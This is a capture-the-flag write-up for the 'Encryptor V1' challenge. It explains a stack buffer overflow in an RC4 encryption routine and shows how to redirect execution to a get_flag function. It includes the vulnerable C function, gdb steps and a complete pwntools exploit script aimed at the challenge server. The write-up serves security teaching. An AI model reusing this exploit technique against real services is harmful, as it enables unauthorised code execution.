 # Encryptor V1

## _Analyzing The Source_

The challenge had more than one path to solve it, first when i took a look at the source code i thought it was a **format string attack** challenge because of the `printf(ciphertext);` instruction, so let's say i lost a bit of time in that direction , then after talking with the author and checking the code i started getting more familiar with and i discovered the **BOF**.

The program was reading uptop `1024` chars (in case no _NULL BYTE_ is found, i will get to this later when talking about the exploit) but the `ciphertext` array was supposed to only have a max of `256` chars ( **unsigned char ciphertext`[BUFFER_SIZE]`;**) where **BUFFER_SIZE** = 256, so the BOF is located in `pseudo_random_generation` function which has the for loop that was going from `0` to the length of the `plaintext`( **char plaintext`[1024]`;**) and asigning encrypted chars to the `ciphertext` variable.

```c
int pseudo_random_generation(unsigned char *state, char *plaintext, unsigned char *ciphertext)
{

    int i = 0;
    int j = 0;

    for (size_t n = 0, len = strlen(plaintext); n < len; n++)
    {
        i = (i + 1) % STATE_SIZE;
        j = (j + state[i]) % STATE_SIZE;

        swap(&state[i], &state[j]);
        unsigned char rnd = state[(state[i] + state[j]) % STATE_SIZE];

        ciphertext[n] = rnd ^ plaintext[n];

    }

    return 0;
}
```

## _Exploitation_

The idea was to overwrite the `rip` pointer with the address of `get_flag` function, and since the ASLR protection was disabled the address of the `get_flag` will be the same on each run, so using `gdb` i examined the address of `get_flag` using the command :

```
x get_flag
```

> Note: You can also use `readelf -s encryptor` to see the entries in symbol table section of the file and get the address from there.

`GET_FLAG` = `0x0000000000401216`.

So our payload needs to be as follow : 264 chars + `GET_FLAG`, taking into account the 264 chars must have no `\0` (a NULL BYTE) otherwise the program will stop reading chars,but because of the `RC4` encryption we are not able to pass the payload as it is because it will be encrypted and we lose the address of `GET_FLAG`,so we need to encrypt it ourselve first then to send the resulted text to the binary because when the it tries to encrypt our input we will get the payload we want.

And Voila : `IngeHack{ch0$3n_c1ph3rt3xt_4tt4ck_1npwn!!}`

```python
from pwn import *
from arc4 import ARC4

GET_FLAG = 0x0000000000401216
LOCAL = False
if LOCAL:
    elf = ELF('./encryptor')
    p = elf.process()
else:
    p = remote("pwn.ingehack.ingeniums.club", 2001)

key = 'AA'

data_offset = b"BCDEFG"*12 + b"OB"*47 + b"HO" * 39 + b"PS"*10
payload = ARC4(key).decrypt(data_offset + p64(GET_FLAG))

print(p.recvuntil("Key: \n"))
p.sendline(key)
p.recvline()
p.sendline(payload)
print(p.recv())
print(p.recv())
```
